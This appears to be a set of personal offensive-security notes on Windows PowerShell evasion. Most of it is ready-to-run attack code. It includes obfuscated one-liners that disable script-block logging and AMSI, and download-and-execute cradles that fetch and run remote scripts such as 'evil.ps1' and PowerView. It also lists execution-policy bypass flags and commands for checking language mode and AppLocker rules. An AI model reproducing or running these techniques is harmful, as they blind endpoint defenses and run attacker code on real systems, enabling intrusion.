 ##### Bypass Scriptblock logging and AMSI
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

##### Invisi-shell
```powershell
RunWithPathAsAdmin.bat
RunWithRegistryNonAdmin.bat
```

> [!NOTE] Note
> Make sure you type `exit` finish the cleanup
> Powershell is NOT `powershell.exe`. It is the `System.Management.Automation.dll`

##### Execute scripts in memory
```powershell
iex ((New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1'))
iex (iwr 'http://192.168.230.1/evil.ps1')
iex(iwr 'http://10.10.10.11/PowerView.ps1' -useb)

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

##### Constrained Language Mode - AppLocker / WinDefender
View language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View AppLocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
![[Pasted image 20250406211031.png]]

`Allow everyone (S-1-1-0) to run scripts in C:\Program Files`
